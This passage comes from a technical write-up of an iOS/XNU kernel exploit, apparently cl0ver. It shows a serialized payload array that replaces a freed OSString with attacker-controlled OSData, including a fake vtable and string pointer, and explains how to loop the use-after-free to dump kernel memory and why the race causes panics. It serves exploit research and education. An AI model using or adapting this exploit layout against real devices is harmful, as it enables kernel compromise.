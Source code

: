         kOSSerializeString | 4,                                         // String that will get freed
        *((uint32_t*)"str"),
        kOSSerializeData | sizeof(OSString),                            // OSData with same size as OSString
    #ifdef __LP64__
        data[0],                                                        // vtable pointer (lower half)
        data[1],                                                        // vtable pointer (upper half)
        data[2],                                                        // retainCount
        data[3],                                                        // flags
        data[4],                                                        // length
        data[5],                                                        // (padding)
        data[6],                                                        // string pointer (lower half)
        data[7],                                                        // string pointer (upper half)
    #else
        data[0],                                                        // vtable pointer
        data[1],                                                        // retainCount
        data[2],                                                        // flags
        data[3],                                                        // length
        data[4],                                                        // string pointer
    #endif

        kOSSerializeSymbol | 4,                                         // Name that we're gonna use to retrieve bytes
        *((uint32_t*)"ref"),
        kOSSerializeObject | 1,                                         // Reference to the overwritten OSString

        kOSSerializeSymbol | 4,                                         // Create a reference to the OSData
        *((uint32_t*)"sav"),
        kOSSerializeEndCollection | kOSSerializeObject | 2,
    };

With that figured out, back to the length that we put aside earlier: MIG let's us pass at most 4096 bytes in or out of the kernel at once, so in order to dump arbitrary amounts of memory, we need to invoke the UaF in a loop (I don't think this needs more explaining, it's just math).

*I've implemented the concept up until here in the `uaf_get_bytes` and `uaf_read_naive` functions in [`uaf_read.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/uaf_read.c). They're not used anymore, but I left them in for demo purposes.*

Now, with the above it is already possible do dump the kernel... provided you wait a sufficient amount of time between invocations. If you don't, you're likely to see your device panic. That is because ultimately, the UaF is a race condition.  
When our `OSString` is freed, it gets added to the top of its zone's freelist, and we count on it being there when our `OSData`'s buffer is allocated. If that is not the case, then the subsequent call to `retain()` will almost certainly cause a panic.

Now, I went through `OSUnserializeBinary` multiple times and I'm pretty confident that it doesn't do any allocations or deallocations between our two key events... so from the perspective of a single thread, our assumption should hold. But in the multithreaded environment that is XNU, we're very far from that.  
There are a couple of things that can happen, for a couple of different reasons, and with a couple of different consequences:
